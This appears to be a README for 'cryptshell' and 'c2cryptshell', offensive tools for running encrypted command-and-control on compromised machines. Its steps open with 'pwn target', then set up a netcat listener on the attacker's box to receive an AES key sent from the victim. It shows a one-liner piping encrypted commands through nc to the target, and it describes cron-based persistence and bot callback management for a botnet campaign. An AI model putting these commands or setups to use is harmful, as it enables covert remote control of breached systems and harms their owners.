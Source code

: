 # cryptshell
Active AES Encrypted C2 Campaign Management

## usage
- pwn target
- configure the following variables in cryptshell
	- RHOST (the IP of your C2 server that you will be sending the commands from)
	- RPORT (the port on your C2 server that you want cryptshell to send the AES key to)
	- LPORT (the port you want the target to listen on)
- setup listener on attack box (to recieve key): nc -lnvp $RPORT > aes.key
- run cryptshell on target and kill the connection after the key is transferred
- pipe c2 commands through aescrypt and a socket to your target (the listener and decrypter are on a cron): echo "touch tmp" | aescrypt -e -k aes.key - | nc target $LPORT
	- since it runs on a cron, you can only send one payload per cron cycle, so I suggest you prepare scripted one liners
	- you will know if the commands were sent if you run the command and the connection hangs, wait a few seconds and force quit it

# c2cryptshell
Passive AES Encrypted C2 Campaign Management

## usage
- [the first four steps from cryptshell, replacing cryptshell with c2cryptshell]
- run c2cryptgen.sh on attack box
- kill the connection on the attack box after the connection is made
- [repeat steps 2 and 3, per set of instructions, until all bots have made the connection]

## red team notes
- stagger crons on bots so that they do not all try and connect at the same time, and keep note of which bots call back when so you can track who recieved what instructions
